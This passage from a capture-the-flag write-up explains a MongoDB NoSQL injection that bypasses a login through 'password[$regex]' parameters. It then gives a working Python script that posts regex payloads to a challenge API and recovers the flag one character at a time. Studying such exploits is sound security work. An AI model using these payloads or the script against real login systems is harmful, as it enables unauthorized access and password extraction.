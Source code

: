 ```
user=admin&password[$regex]=.*
```

By making multiple requests we can match further and further by verifyng the response API is giving (remember `logged` property?). By assuming that the password is a flag we can make a successful login attempt with

```
user=admin&password[$regex]=CHTB.*
```

So let's write a script.

[Back to top](#contents) ⤴

# Exploit

> 🔔 `CyberEthical.Me` is maintained purely from your donations - if you would like to boost the community, consider one-time sponsoring at the 🍻 [Buymeacoffee](https://www.buymeacoffee.com/asentinn) or use the [Sponsor](https://blog.cyberethical.me/sponsor) button.

I'm borrowing the baseline script from [0daylabs](https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100). After some modifications:

```python
# mongoregexdiscovery.py

import requests
import string
import json 

flag = "CHTB{"
url = "http://206.189.121.131:31978/api/login"

restart = True

while restart:
    restart = False

    # Characters like *, ., &, and + have to be avoided because we use regex
    for i in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)

        rData = json.loads(r.content)
        if rData["logged"] == 1:
        	#we succesfully logged in
            print(payload)
            restart = True
            flag = payload

            # Exit if "}" gives a valid status

            if i == "}":
                print("\nFlag: " + flag)
                exit(0)
            break
```
